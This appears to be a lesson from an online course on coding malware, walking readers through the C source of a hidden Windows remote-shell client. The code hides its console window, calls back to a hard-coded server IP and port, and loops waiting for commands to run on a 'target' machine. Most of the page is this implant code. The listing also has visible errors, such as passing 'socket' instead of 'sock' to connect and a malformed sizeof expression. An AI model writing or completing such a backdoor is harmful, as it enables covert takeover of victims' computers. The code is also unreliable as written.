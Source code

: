 ```yaml
---
title: Creating our shell function
course: code_malware
section: "Executing shell commands"
layout: lesson
---
```


As stated in the previous lesson, we will start working in our "Shell" function
which will receive a command from the server, execute it in the client and
return the output back to the server.

As you could see in the previous lesson, at the very end of the "_WinEntry_"
function, we called a function "Shell", function which we have not created yet.
So let's go to the beginning of the program right above the "**APIENTRY**
_WinMain_" function and the "_Shell_" function is going to be a void. What does
it mean? A "**void**" function means, that it will not return anything, for
example, if you code a function integer (**int**) it means, that the integer
function will return an int value, for example, one or zero. Add this to the
beginning of your code to define the "Shell" function:

```c
void Shell() {
}
```

Once the function "_Shell_" is defined, we will create three different variables
inside of it. The first one is going to be the buffer variable it is going to be
a char type variable and is going to contain "1024" bytes of memory, we are
going to use this variable to save the command from the server. Consider the
following scenario. We are running our server (keep in mind we have not coded
it yet) and we send the command to the target which is going to be for example
_Delete the 'homework.docx' file_, that command will be stored in the buffer
variable. The second variable we will need to define is the container variable,
I will call it container and that variable is also going to be char type and
will also allocate 1024 bytes of memory (the use of this variable will be
explained later). And the third variable we will need to define is
"_total_response_" which is also a char, but it will allocate "18384" bytes of
memory, it means that this variable is way more large than the previous two.
This is how our "_Shell_" function looks like so far:

```c
void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[18384];
}
```

Once we have defined those three variables, we are ready to define another loop
which will be executed for ever and will wait for incoming commands. To create
an inifnite loop, simply type:

```c
while (1) {
}
```

As we did in the "_WinMain_" function, we will also need to create a jump point
right before everything in our while loop.

```c
while (1) {
  jump:
    Code goes here
    ...
}
```

Now, what we are going to do, is to take the three variables we created and we
will allocate zeroes inside all of the memory that they take. For example, if
there are some random bytes in the 1024 bytes of memory that "_buffer_" takes,
we will set it all to zero. We already know that there is a function called
"_memset_" which we already used before, and this function takes three arguments
which is the variable name, the bytes we want to overwrite and the size we want
to overwrite. But we will not use this function, because we are would use it a
lot of times inside this program, let's create a smaller function that is going
to perform the same task.

We are going to create the "_bzero_" function, and for those who are wondering
"_bzero_" that is exactly the same as "_memset_", just that it is usable only on
linux, but as we are creating an application for Windows, we can't simply use
the "_bzero_" function and expect it to work, we need to define this function.
How can we define it? Inside of "_C_" we can use "_#define_", after that, we
type the name of the function (in this case "_bzero_"), open brackets and
specify what parameters are going to be needed. Our "_bzero_" function will take
two arguments, the first one will be the variable and the second one will be the
size. For example, if we want to zeroe the variable "_buffer_", we would execute
"_bzero(buffer, 1024)_". Defining the variable name and arguments are not the
only things we need to do, we also need to tell to the program how it should
work, how it can zeroe a memory section, we can port the arguments taken from
the "_bzero_" function to the "_memset_" function which will work in windows in
the same line, to do so, type the following:

```c
#define bzero(p, size) (void) memset((p), 0, (size))
```

Now that we have the "_bzero_" function in our program, so now we can use it in
our while loop so we can "_bzero_" all of the three variables previously
defined. Our while loop looks like this so far:

```c
while (1) {
  jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));
}
```

So now let's see how we can use these variables. The first thing our program
needs to do is to receive the command of our server, how can we do that? we can
do it by using the "_recv_" (receive) function, this function takes four
  parameters, the first one is the socket we created, which we called "_sock_",
the second parameter is where the received data from the server will be stored,
in our case "_buffer_" the third parameter, is the size of the variable where we
are storing the received data, so it is going to be "_1024_" bytes, and the
fourth parameter will be zero, which specifies we are not passing any other
argument besides the three previous paramters. That entire line would look lilke
this:

```c
recv(sock, buffer, 1024, 0);
```

Now, when whe received the data sent by the server, we can enter our if/else
statements.

This is how our code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;

void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[1024];

  while(1) {
    jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));

    recv(sock, buffer, 1024, 0);
  }
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
